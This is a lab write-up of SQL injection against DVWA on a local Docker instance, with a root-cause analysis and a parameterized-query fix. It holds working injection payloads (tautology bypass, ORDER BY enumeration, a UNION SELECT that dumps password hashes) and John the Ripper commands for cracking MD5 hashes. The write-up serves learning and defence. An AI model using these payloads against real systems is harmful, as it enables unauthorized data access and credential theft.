









# SQL Injection — DVWA (Low Security)

**OWASP Category:** A03:2021 – Injection
**Target:** DVWA "SQL Injection" module
**Security Level Tested:** Low

---

## 1. Overview

SQL Injection happens when an application builds a database query by directly gluing user input into the query string, instead of keeping the input separate from the query's structure. Because the database can't tell "developer-written SQL" apart from "attacker-controlled text disguised as data," malicious input gets executed as if it were part of the original command.

In this lab, this flaw was used to bypass a query's intended logic, extract usernames and password hashes from a table the application never intended to expose, and then crack one of those hashes offline.

---

## 2. Environment

| Component | Details |
|---|---|
| Target | DVWA (Damn Vulnerable Web Application) |
| Deployment | Docker (`vulnerables/web-dvwa`), `localhost:8080` |
| Host OS | Windows 11 |
| Cracking environment | Kali Linux via WSL2 |
| Tools | Docker Desktop, John the Ripper, hashcat (attempted), browser |

---

## 3. Steps to Reproduce

### 3.1 Confirming the injection point

The module takes a `User ID` and builds a query like:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '<input>'
```

Since the input is concatenated directly into the query, anything typed into the field becomes part of the executable SQL.

**Environment setup, for reference:**


*Docker Desktop initially failed with "Virtualization support not detected" — traced to WSL/Virtual Machine Platform Windows features not being enabled, not a BIOS issue.*


*Engine running after enabling the required Windows features and updating WSL.*


*Pulling and running `vulnerables/web-dvwa`, exposed on port 8080 — MySQL and Apache both starting cleanly.*


*Confirming DVWA is up and accessible after database setup and login.*


*Normal behavior before injection: User ID `1` correctly returns only the admin record.*

### 3.2 Logic bypass injection

```sql
1' OR '1'='1
```

This closes the string early and appends a condition that is always true, so instead of matching one row, the query returns every row:

```sql
SELECT * FROM users WHERE user_id = '1' OR '1'='1'
```

**Result:** all 5 DVWA users were returned instead of just user ID 1.

### 3.3 Determining column count (blind enumeration)

Before a `UNION`-based extraction will work, the number of columns in the original query has to match. This was found using `ORDER BY`, without any prior knowledge of the schema:

```sql
1' ORDER BY 1-- -
1' ORDER BY 2-- -
1' ORDER BY 3-- -
```

`ORDER BY 3` produced an "Unknown column '3'" error, confirming the query has exactly **2 columns**.

### 3.4 UNION-based extraction of credentials

```sql
1' UNION SELECT user, password FROM users-- -
```

**Result:** the app printed usernames and their MD5 password hashes in the same output area normally used to show one user's name — a full credential leak through a single vulnerable field.

### 3.5 Offline password cracking

Extraction gives you hashes, not plaintext — cracking is a separate step exploiting **weak, unsalted hashing** (DVWA uses raw MD5), not the web app itself.

`hashcat` failed in the WSL environment with no usable OpenCL/GPU device:


*`hashcat` reporting `No devices found/left` — WSL has no GPU passthrough by default.*

Attempted to fix this by installing an OpenCL runtime, which led to further dead ends:


*Searching for a usable CPU OpenCL package after the GPU-based attempt failed.*


*A follow-up attempt to install `pocl-opencl-icd` also failed — no installation candidate available in this WSL/Kali setup.*

Rather than continuing to chase an OpenCL runtime, switched to a CPU-based tool instead:

```bash
sudo apt install -y john
echo "<hash>" > hash.txt
john --format=raw-md5 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
john --show --format=raw-md5 hash.txt
```


*The hash `e99a18c428cb38d5f260853678922e03` cracked almost instantly to the plaintext `abc123`.*

**Result:** the hash cracked instantly. This was fast specifically because MD5 is unsalted — identical passwords always produce identical hashes, which is exactly what makes wordlist attacks effective against it.

---

## 4. Why It Worked

The application never separates **query structure** from **user data**. Confirmed directly against DVWA's real source for this module:

```php
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($conn, $query) or die('<pre>' . mysqli_error($conn) . '</pre>');
```

`$id` is dropped straight into the query string — no sanitization, no parameter binding. The `or die(mysqli_error(...))` also displayed raw SQL errors during testing, which is itself a separate weakness (verbose error messages help an attacker refine payloads).

**Root cause, generalized:** a trust-boundary violation — attacker-controlled input was treated as trusted code instead of inert data. This same pattern underlies Command Injection, XSS, and LDAP Injection — SQL injection is simply the SQL-flavored version of a much larger vulnerability family.

---

## 5. Impact & Fix

**Impact:** A single unvalidated input field led to full extraction of the application's user table, including password hashes — in a real system this could mean full account takeover for every user once hashes are cracked.

**Fix — parameterized queries / prepared statements:**

```php
$id = $_GET['id'];
$stmt = $conn->prepare("SELECT first_name, last_name FROM users WHERE user_id = ?");
$stmt->bind_param("s", $id); // "s" = treat $id strictly as a string
$stmt->execute();
$result = $stmt->get_result();
```

The `?` is a placeholder — even if `1' OR '1'='1'` is sent as `$id`, it's bound as a literal string to compare against `user_id`. It can never break out of the data context and become part of the query logic. Verified this by switching DVWA's security to **Impossible** (which already uses this pattern) and confirming the same payload no longer worked.

**Defense-in-depth**, layered on top of the primary fix:

| Layer | Purpose |
|---|---|
| Parameterized queries | Primary fix — non-negotiable |
| Input validation (whitelisting) | Reject unexpected characters, e.g. non-numeric IDs |
| Least-privilege DB accounts | Limits blast radius if injection still occurs |
| Strong password hashing (bcrypt/Argon2) | Makes cracked hashes far less likely, even if leaked |
| Safe error handling | Never expose raw SQL errors to users |

---

## 6. Real-World Relevance

- This exact pattern (login forms, search bars, URL parameters, API bodies) is the most common entry point for SQL injection in real applications.
- Leaked hash dumps are routinely cracked within hours when weak, unsalted hashing is used — as demonstrated here.
- SQL injection remains one of the highest-paying vulnerability categories in bug bounty programs, since it can lead to full database compromise.

